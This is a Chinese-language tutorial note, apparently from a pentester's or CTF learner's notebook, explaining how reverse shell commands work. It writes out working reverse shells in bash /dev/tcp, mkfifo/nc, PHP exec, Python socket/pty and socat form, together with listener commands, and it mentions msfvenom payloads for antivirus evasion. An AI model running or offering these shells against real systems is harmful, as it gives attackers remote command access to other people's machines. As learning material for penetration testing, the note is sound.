



# 反弹shell命令理解

``` bash
bash -i >& /dev/tcp/192.168.2.22/5566 0>&1
```

这里的 bash 交互性 shell。先将标准输出文件交给 linux 伪终端设备也就是 22 主机 5566 端口的socket 文件。然后将自己的标准输入文件重定向为 远端socket 的输出。从而形成立足点。

## 最原始的命令理解

靶机执行
```shell
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.10.117 4444 > /tmp/f
```

kali 监听
```shell
sudo nc -lvnp 4444
```

也可以直接美化我们的 shell
```shell
rlwrap nc -lvnp 4444
```

mkfifo 是个新增管道的工具。这个操作旨在不使用系统原有的管道文件。注意 linux 命令中的 | 这个符号指挥接受标准输出，丢弃标准错误输出。这条命令的原理是先在靶机上新增一个管道文件，如果有旧的同名文件则删除。将管道中的内容输出给一个交互性质的 Bash 进程。此时管道中没有内容。当管道中有命令时，则会将命令通过 | 交给 Bash 执行。Bash 会将标准错误和标准输出一起交给 nc 进程。nc 进程会将命令执行的结果和错误通过 f 管道返回给 kali 终端。kali 终端此会监听我们的下一行命令执行输出给 f 管道。以此获得系统立足点。

cat 的角色是将 f 管道的命令输出给 Bash 解释器。nc 工具则将命令执行的结果和错误信息返回给远端 kali。又把远端 kali 的信息重新放回管道。



## 面对 dash 命令的解决方法



在实战的环境中，面临 

```shell
bash -i >& /dev/tcp/192.168.2.22/5566 0>&1
```

这条命令执行无回显的问题。其实原因很大程度上是因为靶机环境采用非 /bin/bash 的环境。这里具体情况有两种：

- _/dev/tcp/192.168.2.22/5566_ 这个 tcp 伪设备的写法是 bash 解释器独有的，并不是 linux 环境都有的。如果执行的话，终端会报找不到文件的报错。
- 如果不是因为为设备的原因，而是因为 shell 的解释器是 /bin/sh 的话，可以将 bash 换成 sh 尝试一下。

所以在常见的 php 环境下，这条命令也不会有回显。

```php
<?php exec("/bin/sh -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'"); ?>
```

这种情况下，我们只能根据靶机服务器有的语言工具选择对应的反弹 SHELL 语言。比如 Kioptrix 1.4 我采用了 python 的反弹 shell 语句。

```python
# Python 3
python3 -c 'import socket,subprocess,os,pty;s=socket.socket();s.connect(("10.10.10.10",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```




其实 socat 工具也可以进行反弹 SHELL。

```shell
# Listener (your box) - note the backticks around tty
socat file:`tty`,raw,echo=0 tcp-listen:4444

# Victim - delivers a full PTY, no upgrade dance needed
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```

考虑到免杀和绕过，我们可以使用 msfvenom 工具中的 cmd/unix/ 载荷下的 反弹 shell 脚本。也是不错的尝试。
这几篇文章很有参考意义

- [hackerdna-reverse-shell](https://hackerdna.com/blog/reverse-shell-cheat-sheet)
